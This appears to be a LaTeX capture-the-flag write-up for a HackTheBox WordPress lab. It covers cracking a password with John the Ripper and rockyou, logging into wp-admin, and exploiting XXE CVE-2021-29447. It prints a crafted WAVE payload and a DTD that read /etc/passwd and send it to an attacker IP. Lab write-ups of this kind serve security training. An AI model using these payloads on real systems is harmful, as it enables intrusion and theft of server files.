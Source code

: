 \documentclass[11pt]{article}
\begin{document}
\section{Cracking the passwords: John the Ripper}
\label{sec:org1448994}

\begin{verbatim}
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt
\end{verbatim}
We are using John the Reaper which is a hashcracking program, in this case we are
using the classic rockyou wordlist that. I had to decompress the rockyou file before
utilizing the command, just so you know.

We see that it found one password, the manager's which is ``partylikearockstar''.

So we have a username and a password but we have to find out where to enter them.
Although there is no login link in the page, based in our enumeration we know that
there is a subdomain called ``wp-admin''. So if we go to \url{http://metapress.htb/wp-admin}
we will encounter the Wordpress page for authentication, we enter the credentials
and we are in!

\section{Exploiting XXE}
\label{sec:orgc31c680}

Looking around the vulnerabilities of this version of Wordpress I encounter this
article: \url{https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/}
It's a fascinating thing. It essentially uses the metadata of a WAVE file to
inject payload and retrieve information.

\begin{verbatim}
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml
      version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM
       '"'"'http://10.10.14.83:1234/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' >
payload.wav
\end{verbatim}
That is the code that the author suggests, the only thing we should change it's the
ip, replacing it with our own and I also changed the port to 1234 for convenience.

Now if we continue with the article we have to send this payload through a dtd file
which will look like this:

\begin{verbatim}
<!ENTITY % file SYSTEM
"php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25;
          trick SYSTEM 'http://10.10.14.83:1234/?p=%file;'>">
\end{verbatim}
\end{document}
